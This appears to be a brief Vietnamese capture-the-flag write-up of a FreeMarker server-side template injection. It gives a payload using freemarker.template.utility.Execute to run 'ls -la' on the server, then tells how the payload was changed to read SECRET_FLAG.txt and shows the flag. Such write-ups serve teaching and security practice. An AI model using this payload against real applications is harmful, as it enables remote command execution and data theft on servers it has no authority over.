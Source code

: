 - Tra Freemaker template injection:

![1](img/30/Screenshot%20from%202023-01-26%2016-53-12.png)

```
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("ls -la") }
```

- Chạy thử:

![1](img/30/Screenshot%20from%202023-01-26%2016-53-52.png)

- Có file SECRET_FLAG.txt. sửa payload để đọc file này là được:

![1](img/30/Screenshot%20from%202023-01-26%2016-54-12.png)

```
Flag: B3wareOfT3mplat3Inj3ction
```

